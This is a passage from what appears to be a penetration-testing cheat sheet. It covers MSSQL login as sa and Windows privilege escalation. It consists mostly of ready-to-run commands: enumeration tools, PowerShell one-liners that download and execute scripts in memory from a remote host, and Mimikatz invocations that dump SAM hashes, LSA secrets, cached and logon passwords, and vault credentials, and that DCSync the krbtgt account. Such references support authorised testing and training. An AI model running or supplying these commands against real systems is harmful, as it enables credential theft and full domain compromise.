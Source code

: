 ### Port 1433 (MSSQL)

Accessing:
```bash
sqsh -S <target>:1433 -U sa
```

## Privilege Escalation

### [Windows](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

#### [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/winPEAS/bin/Obfuscated%20Releases)

```bash
winPEASany.exe
winPEAS.bat
```

#### [Seatbelt](https://raw.githubusercontent.com/r3motecontrol/Ghostpack-CompiledBinaries/master/Seatbelt.exe)

```bash
Seatbelt.exe -group=system
Seatbelt.exe -group=user
Seatbelt.exe -group=misc
Seatbelt.exe -group=all -full
```

#### [Sherlock](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)

```bash
Import-Module .\Sherlock.ps1; Find-AllVulns
powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.0.0.1/Sherlock.ps1'); Find-AllVulns
```

#### [Powerless](https://github.com/M4ximuss/Powerless/blob/master/Powerless.bat)

```bash
Powerless.bat
```

#### [Mimikatz](https://github.com/gentilkiwi/mimikatz)

```bash
mimikatz.exe
mimikatz.exe "privilege::debug token::elevate lsadump::sam exit"
mimikatz.exe "privilege::debug token::elevate lsadump::secrets exit"
mimikatz.exe "privilege::debug token::elevate lsadump::cache exit"
mimikatz.exe "privilege::debug token::elevate sekurlsa::logonpasswords exit"
mimikatz.exe "privilege::debug token::elevate vault::cred /patch exit"
mimikatz.exe "privilege::debug token::elevate lsadump::dcsync /user:domain\krbtgt /domain:lab.local exit"
powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.0.0.1/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds
```
